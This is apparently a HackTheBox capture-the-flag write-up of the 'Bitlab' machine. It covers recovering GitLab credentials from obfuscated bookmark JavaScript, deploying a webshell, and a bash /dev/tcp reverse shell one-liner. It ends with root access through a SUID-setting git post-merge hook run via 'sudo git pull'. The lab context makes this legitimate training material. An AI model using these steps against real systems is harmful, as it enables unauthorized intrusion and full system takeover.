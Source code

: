 ```yaml
---
description: Bitlab box from HackTheBox write up.
---
```


# Bitlab

## Nmap

As always a port scan to see where we start:

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- --min-rate=1000 10.10.10.114    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-28 15:59 CET
Nmap scan report for 10.10.10.114
Host is up (0.039s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 115.16 seconds

┌──(kali㉿kali)-[~]
└─$ sudo nmap -p22,80 -sC -sV 10.10.10.114
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-28 16:03 CET
Nmap scan report for 10.10.10.114
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a23bb0dd2891bfe8f9308231232f9218 (RSA)
|   256 e63bfbb37f9a35a8bdd0277b25d4eddc (ECDSA)
|_  256 c9543d91017803ab16146bccf0b73a55 (ED25519)
80/tcp open  http    nginx
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.07 seconds
```

## Port 80

### Our way in

This is a GitLab installation. By bruteforcing directories I found two registered users: `root` and `clave`. The rest of the directories were not interesting... until I clicked the help section.

In the `/help` directory, I found a directory listing with bookmarks. One of them was actually executing obfuscated javascript. After working on it for a bit, this is the code but readable:

```js
        (function() {
    var values = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document[values[2]](values[1])[values[0]] = values[3];
    document[values[2]](values[4])[values[0]] = values[5];
})()
" ADD_DATE="
1554932142
```

Basically, this is trying to fill the login details for the user `clave`. We have credentials to login into GitLAB now! `clave:11des0081x`.

### Logged in as clave

Now we can explore the non public repositories. I found this snipped with what could be credentials for an internal database, I will let this here just in case.

```php
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
```

Then, remember when I said the directory brute force did not really discover important things? Well now I found that these pages are my way in:

```
http://10.10.10.114/profile
http://10.10.10.114/deployer/
```

Both applications have its repository in the GitLab page.The Deployer thing basically allows me to deploy new merged changes to the master branch of the Profile repository. Since we are allowed to push changes to the Profile `test-deploy` branch, I uploaded a webshell to the branch and I merged this changes into the master branch.

My new "feature" was deployed without me actually using the Deployer application so... thanks to the administrator I guess. We can now get a reverse shell into the machine by accesing the webshell I uploaded in `http://10.10.10.114/profile/test.php` and executing:

```bash
bash -c "/bin/bash -i >& /dev/tcp/10.10.14.25/8000 0>&1"
```

Remember that you need to prepare a listener in your machine!

## Pwned!

Inmediately I executed this:

```bash
www-data@bitlab:/var/www$ sudo -l
Matching Defaults entries for www-data on bitlab:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull
```

As I expected, we can execute the `git pull` command as `root` (The Deployer application code is using `sudo`). 

There is something called hooks in Git that allows us to basically execute a task when something happens. We can execute as `root` the pull action, so creating a `post-merge` hook with this code:

```bash
#! /bin/bash

chmod u+s /bin/bash
```

Of course we cannot do this in the original directory because it is owned by `root`, so we have to copy the repository to, for example, `/tmp` and create the hook there. The hook will covert the `/bin/bash` binary into a SUID binary we can use to escalate. In order for the hook to execute however, we need new changes in the upstream but that is not a problem since we can repeat what we did with the webshell but modifying the `README.md ` file or whatever.

Once everything is ready, pull the changes into our malicious repository and the box is pwned!

```bash
www-data@bitlab:/tmp/profile$ sudo /usr/bin/git pull
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 4 (delta 2), reused 1 (delta 0)
Unpacking objects: 100% (4/4), done.
From ssh://localhost:3022/root/profile
   c569005..6870424  master      -> origin/master
   4f20db1..5ccecd4  test-deploy -> origin/test-deploy
Updating c569005..6870424
Fast-forward
 README.md | 3 +--
 1 file changed, 1 insertion(+), 2 deletions(-)
www-data@bitlab:/tmp/profile$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
www-data@bitlab:/tmp/profile$ bash -p
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

We could have also used this method but with a master and a slave repository so everything is self contained. Check this repository for an example: https://github.com/arnav-t/git-pull-priv-escalation.
